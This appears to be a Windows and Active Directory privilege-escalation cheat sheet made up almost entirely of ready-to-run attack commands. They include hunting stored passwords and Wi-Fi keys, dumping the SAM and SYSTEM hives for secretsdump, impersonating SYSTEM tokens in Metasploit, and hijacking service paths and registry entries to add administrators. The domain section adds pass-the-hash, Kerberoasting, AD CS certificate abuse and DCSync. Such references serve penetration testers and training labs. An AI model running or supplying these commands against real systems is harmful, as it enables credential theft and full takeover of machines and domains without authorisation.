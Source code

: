 ## SYSTEM ENUMERATION
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic logicaldisk get caption,filesystem,freespace,size,volumename

## USER ENUMERATION
whoami /priv
whoami /groups
net user
net user <username>
net localgroup

## NETWORK ENUMERATION
ipconfig /all
arp -a
route print
netstat -ano

## HUNTING PASSWORDS
findstr /si password *.txt
netsh wlan show profile [SSID] key=clear

## FIREWALL / ANTIVIRUS
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

## WINDOWS SUBSYSTEM FOR LINUX
where /R C:\windows bash.exe
where /R C:\windows wsl.exe

## POTATO ATTACK
multi/script/web_delivery
run post/multi/recon/local_exploit_suggester
use exploit/windows/local/ms16_075_reflection
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
getsystem

## RUNAS
cmdkey /list
C:\Windows\System32\runas.exe /user:[domain/user] /savecred "C:\Windows\System32\cmd.exe /c [command] > [output]"

## REGSVC ACL
reg save HKLM\SAM SAM --> download sam
reg save HKLM\SYSTEM SYSTEM  --> download system

	- secretsdump.py local -sam sam -system system

Get-Acl -Path hklm:\System\CurrentControlSet\services\ | format-list
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
sc start regsvc

## STARTUP APPS
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

## DLL HIJACKING
sc stop <service> & sc start <service>
ProcMon filter: "NAME NOT FOUND" and ends with ".dll"

## BINARY PATHS
accesschk64.exe -uwcv Everyone *
sc qc <service>
sc config <service> binpath= "net localgroup administrators [user] /add"
sc stop <service> & sc start <service>

## UNQUOTED SERVICE PATHS
## (Run PowerUp.ps1 and replace files in the unquoted directory path)

## CVE-2019-1388
## Follow the manual GUI steps for privilege escalation.

## POWERSHELL SCRIPTS
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope LocalMachine
.\PowerUp.ps1
Invoke-AllChecks

## AD ENUMERATION (NO CREDENTIALS)
net user /DOMAIN
net group /DOMAIN
net share
net localgroup

## AD ENUMERATION (WITH CREDENTIALS)
GetNPUsers.py domain/user -dc-ip <IP> -no-pass
ldapsearch -x -H ldap://<IP> -b "dc=domain,dc=com"

## KERBEROASTING
GetSPN.ps1
Invoke-Kerberoast.ps1

## OVERPASS THE HASH
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe

## PSExec
psexec.py <domain>/<user>:<pass>@<IP>

## AD CS ATTACK
certipy find -dc-ip <IP> -u <user> -p <pass>
certipy req -ca <CA_NAME> -target <DC> -u <user> -p <pass>
certipy auth -pfx <admin.pfx> -dc-ip <IP>
evil-winrm -i <target> -u administrator -H <HASH>

## DCSYNC ATTACK
secretsdump.py <domain>/<user>@<IP> -hashes <HASH>
rpcclient -U "" <IP>